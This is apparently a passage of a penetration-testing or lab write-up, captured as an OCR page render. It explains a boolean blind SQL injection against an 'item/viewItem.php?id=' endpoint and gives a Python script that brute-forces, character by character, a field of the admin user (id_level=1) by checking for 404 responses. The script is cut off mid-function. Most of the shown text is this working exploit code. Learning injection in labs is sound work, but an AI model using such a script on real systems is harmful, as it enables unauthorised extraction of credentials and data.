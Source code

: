 ![](Untitled2.png)

- Line 22 code logic: If a query to an existing id returns true, send a 404 response.

From that we can confirm that the comparison is correct or not based on the response code.

## Automate the blind SQL bruteforce

Lets automate this process with a Python script.

```python
import requests
import sys

def sqli(ip, inj_str):
    for j in range (32, 126): # Ascii table numbers
        proxies = {'http':'http://127.0.0.1:8080'}
        target = "http://%s/item/viewItem.php?id=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target, proxies=proxies)
        r2 = str(r.status_code)

        if "404" in r2:
            return j

    return None

def inject(inj, ip):
    extracted = ""
    for i in range (1,50):
        injection_string = "5 OR (select (select ascii(substring(%s,%d,1)) from user where id_level=1 limit 1) = [CHAR])" % (inj, i)
        retrieved_value = sqli(ip, injection_string)
        if retrieved_value:
            extracted += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
```
